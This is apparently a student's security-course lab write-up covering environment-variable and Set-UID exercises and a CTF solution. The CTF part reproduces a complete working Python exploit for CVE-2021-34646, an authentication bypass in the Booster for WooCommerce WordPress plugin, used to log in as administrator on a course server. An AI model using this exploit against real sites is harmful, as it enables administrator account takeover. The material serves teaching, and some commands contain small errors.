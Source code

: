 # Trabalho realizado na Semana #4
## Task 1
After opening a shell we type the command `printenv` and it shows all the environment variables:
- ![Task1-1](/Images/Week4/Task1-1.png "Task1-1")

Then we try a different command `export`:
- ![Task1-2](/Images/Week4/Task1-2.png "Task1-2")

## Task 2
We started by compiling `myprintenv.c` with 
- `$gcc myprintenv.c` which gerenated a binary called `a.out`.

Then we runned it and saved the output into a file using:
- `a.out > file`

After commenting out the `printenv()` statement in the child process case, and uncomment the `printenv()` statement in the parent process case we redid the first steps.
- `$gcc myprintenv.c`
- `a.out > file2`

This time we called the file `file2` so we could use the command 
- `diff file file2`
- ![Task2-3](/Images/Week4/Task2-3.png "Task2-3")

Which showed us that there are not any differences between the father and child variables because the child process inherited all his father's variables.

## Task 3
We start by executing what is descripted in the guide:
- Compile the file that includes the given program and execute it
- ![Task3](/Images/Week4/Task3-1.png "Task3-1")

Then we change one line on the`myenv.c` file as showned:
- ![Task3-2-1](/Images/Week4/Task3-2-1.png "Task3-2-1")
- ![Task3-2-2](/Images/Week4/Task3-2-2.png "Task3-2-2")

Lastly recompile this file and execute it:
- ![Task3-2](/Images/Week4/Task3-2.png "Task3-2")

## Task4 
After creating the file with the given code, we compiled and executed it as showned:
- `gcc task4.c -o task4`
- `./task4`
- ![Task4](/Images/Week4/Task4.png "Task4")

## Task 5
After creating the file with the given code, we compiled it and executed the following commands:
- `gcc task5.c -o task5`
- `sudo chown root task5`
- `sudo chown 4755 task5`
- `export LD_LIBRARY_PATH=0`
- `export ANY_NAME=A`

With this the new variables are presented when we run `./task5`

## Task 6
We start by executing what is descripted in the guide:
- Compile the file that includes the given program
- Change it's ownership to root using `sudo chown root <filepath/filename>`
- Become root user using `sudo -i`
- Make the program a SET-UID program by using `chmod u+s <filepath/filename>`
- Logout to a common user using `logout`

Now we can run malicious code by replacing the ls command and or by redirecting the shell program to execute another malicious command named cmd, per example:
"#!/bin/bash

function ls() {
  echo 'You have been hacked!'
}"

![Hack](/Images/Week4/Hack.png "Hack")

As the program is SET-UID and the program owner is the root, the program will run with root privileges, accounting that /bin/sh links to /bin/zsh instead of /bin/dash, so the `sudo ln -sf /bin/zsh /bin/sh` is needed.

<br>

## CTF
### Resolution

#### Recognition:

- Wordpress version and plugins:

![Recognition](/Images/Week4/CTF4/Recognition.PNG "Recognition")

- Possíveis utilizadores e nomes de utilizadores:

![Users](/Images/Week4/CTF4/Users.PNG "Users")

#### Vulnerability choice

We found the CVE-2021-34646 for the version 5.4.3 Boster for Wordpress that we choose as the vulnerability to attack.

#### Exploit

For the CVE choosen we found the following exploit:

```
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```
Then ran it:

![Command](/Images/Week4/CTF4/Command.jpeg "Users")

After clicking in the first link we were logged in the admin account:

[Success](/Images/Week4/CTF4/Success.jpeg "Success")

Finally we accessed the link http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php and took the flag:

[Flag](/Images/Week4/CTF4/Flag.jpeg "Flag")
